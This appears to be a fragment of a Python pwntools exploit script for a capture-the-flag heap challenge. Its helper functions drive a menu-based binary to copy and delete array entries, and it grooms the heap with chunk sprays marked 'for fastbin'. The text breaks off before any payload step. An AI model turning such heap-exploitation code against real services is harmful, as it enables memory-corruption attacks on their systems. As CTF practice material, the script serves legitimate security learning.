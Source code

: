 ```py
    p.recvuntil("> ")
    p.sendline("1")
    for i in idxs:
        p.recvuntil("index: ")
        p.sendline(i)
        p.recvuntil("> ")
        p.sendline("1")
    p.recvuntil("> ")
    p.sendline("v")
    p.recvuntil("value: ")
    p.send(content)

def copy(idxs,dst_idx):
    p.recvuntil("> ")
    p.sendline("1")
    for i in idxs[:-1]:
        p.recvuntil("index: ")
        p.sendline(i)
        p.recvuntil("> ")
        p.sendline("1")
    p.recvuntil("index: ")
    p.sendline(idxs[-1])
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("dest index: ")
    p.sendline(dst_idx)

def delete(idxs):
    p.recvuntil("> ")
    p.sendline("1")
    for i in idxs[:-1]:
        p.recvuntil("index: ")
        p.sendline(i)
        p.recvuntil("> ")
        p.sendline("1")
    p.recvuntil("index: ")
    p.sendline(idxs[-1])
    p.recvuntil("> ")
    p.sendline("2")

def list_array():
    p.recvuntil("> ")
    p.sendline("2")

p.recvuntil("> ")
p.sendline("1")
p.recvuntil("> ")
p.sendline("a")
p.recvuntil("size: ")
p.sendline("8")

# alloc some chunks for fastbin
update_array(["07"],8)
for i in range(8):
    update_string(["07","0"+str(i)],"b"*0x40+"\n")

update_array(["00"],8)
update_array(["00","00"],8)
update_string(["00","00","00"],b"a"*70+b"\n")
for i in range(7):
    copy(["00","00","00"],"0"+str(i+1))
for i in range(7):
    copy(["00","00"],"0"+str(i+1))
```